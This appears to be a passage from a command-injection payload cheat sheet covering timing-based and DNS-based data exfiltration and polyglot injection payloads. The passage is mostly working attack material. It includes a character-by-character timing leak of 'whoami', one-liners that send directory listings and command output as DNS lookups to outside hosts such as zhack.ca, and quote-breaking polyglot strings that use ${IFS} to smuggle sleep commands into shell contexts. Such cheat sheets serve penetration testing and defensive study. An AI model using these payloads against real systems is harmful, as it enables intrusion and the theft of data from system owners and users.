 ### Time based data exfiltration

Extracting data : char by char

```powershell
swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```

### DNS based data exfiltration

Based on the tool from `https://github.com/HoLyVieR/dnsbin` also hosted at dnsbin.zhack.ca

```powershell
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```

```powershell
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```

Online tools to check for DNS based data exfiltration:

* dnsbin.zhack.ca
* pingb.in

## Polyglot Command Injection

A polyglot is a piece of code that is valid and executable in multiple programming languages or environments simultaneously. When we talk about "polyglot command injection," we're referring to an injection payload that can be executed in multiple contexts or environments.

* Example 1:

```
  Payload: 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

  # Context inside commands with single and double quote:
  echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
```

* Example 2:

```
  Payload: /*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/

  # Context inside commands with single and double quote:
  echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
  echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
  echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
```
